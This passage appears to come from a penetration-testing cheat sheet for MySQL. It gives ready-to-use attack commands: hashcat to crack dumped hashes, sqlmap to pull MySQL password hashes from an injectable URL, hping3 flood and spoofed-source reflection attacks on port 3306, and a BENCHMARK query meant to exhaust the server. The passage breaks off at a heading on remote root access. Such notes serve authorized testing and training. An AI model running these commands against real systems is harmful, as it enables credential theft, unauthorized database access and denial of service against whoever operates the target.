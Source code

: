 \


*   **Tool:** \[\[HashCat Cheat Sheet]]

    ```bash
    hashcat -m <mode> <hash_file> <path/to/wordlist>
    ```
* **Description:** Cracks dumped password hashes to gain access.

#### Exploiting Default Credentials

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=mysql --batch --passwords
    ```
* **Description:** Attempts to log in using default or weak credentials to gain access to the MySQL database.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p 3306 --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p 3306 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### Resource Exhaustion Attack

*   **Tool:** \[\[MySQL]]

    ```sql
    SELECT BENCHMARK(100000000, ENCODE('hello', 'world'));
    ```
* **Description:** Executes a computationally expensive query repeatedly to exhaust server resources, potentially causing a denial of service.

### Exploits

#### MySQL Unauthorized Remote Root Access
